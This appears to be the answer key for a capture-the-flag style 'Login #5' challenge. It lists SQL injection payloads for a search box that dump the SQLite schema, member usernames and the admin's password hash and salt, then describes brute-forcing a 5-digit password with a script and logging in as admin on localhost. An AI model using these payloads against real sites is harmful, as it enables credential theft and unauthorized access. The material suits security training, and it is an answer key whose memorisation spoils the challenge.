 ## Login #5 Answer
See sources in `/ch5.py`

### Instructions:
1. Find the tables made in the sqlite db using the following command in the search bar on `/search`:
```
y" UNION SELECT sql FROM sqlite_schema; --
```
2. Find all usernames in the members database by running
```
y" UNION SELECT username FROM members WHERE True; -- 
```
3. Find the admin's password and salt
```
y" UNION SELECT hashed_password FROM members where username = "admin"; -- 
y" UNION SELECT password_salt FROM members WHERE username="admin"; --
```
4. Run `ch5.py` with the password hash and salt found which will brute force all possible combinations of numerical 5 length strings
5. Enter `admin` in username box
6. Enter password returned from `ch5.py` in password box at `localhost:8080`
